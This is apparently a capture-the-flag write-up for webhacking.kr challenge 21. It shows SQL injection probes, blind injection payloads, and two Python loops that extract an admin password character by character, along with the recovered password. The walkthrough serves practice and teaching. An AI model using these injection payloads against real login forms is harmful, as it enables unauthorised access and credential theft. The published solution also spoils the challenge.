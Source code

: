 Problem21
===========   

This problem is in webhacking.kr.   
URL: <https://webhacking.kr/challenge/bonus-1/index.php/>   
 
If you enter the URL, you can see the below photo.   
      
<img src="./image/1.png"/> 



### First, Admin Login  

<img src="./image/8.png"/>   
    
The result of "id: admin, pw: admin" is <strong>login fail</strong>     
   
### Second, SQL Injection       
    
<img src="./image/2.png"/>   
    
I tried to SQL Injection. <strong>admin' or '1'='1</strong>    
<strong>Result: Wrong password </strong>   
 
While I tried to "<strong>admin' or '1'='0</strong>". 
<strong>Result: Wrong password </strong>

You can see that the values you entered this time are different from before.   
Through this, I knew that <strong>ID is 'admin'</strong>.   

### Third, Blind SQL Injection (ID Length)        
    
<img src="./image/4.png"/>   
     
<img src="./image/5.png"/>    
         
```   
admin' and if(length(id)like(5),1,0) or '1'='0 (Result: Wrong Password)   
admin' and if(length(id)like(6),1,0) or '1'='0 (Result: login fail)    
```    
    
This test certainly shows that the length of ID is 5.    
In addition, we can access on the password througth the result.   
    
#### True: (Result: Wrong Password)       
#### False: (Result: login fail)       
    
### Fourth, Blind SQL Injection (PW Length, PW)    
    
#### Password Length Payload    
     
```   
for i in range(50):
    url = "https://webhacking.kr/challenge/bonus-1/index.php?id=admin\' and if(length(pw)like({}),1,0) or \'1'=\'0&pw=1".format(i)
    res = requests.get(url, headers=headers, cookies=cookies)

    if res.text.find('wrong password') > 0: 
        str_len = i
```    
     
#### Password Payload   
    
```   
for i in range(1, str_len + 1):
    for j in range(48,128):
        url = "https://webhacking.kr/challenge/bonus-1/index.php?id=admin\' and if(ord(substr(pw,{},1))like({}),1,0) or \'1\'=\'0&pw=1".format(i,j)
        res = requests.get(url, headers=headers, cookies=cookies) 
        if res.text.find('wrong password') > 0:
            password += chr(j)
            break     
```   
     
#### Result    
     
<img src="./image/6.png"/>   
     
<strong>Password Length: 36</strong>    
<strong>Password: there_is_no_rest_for_the_white_angel</strong>     
      
<img src="./image/7.png"/>   
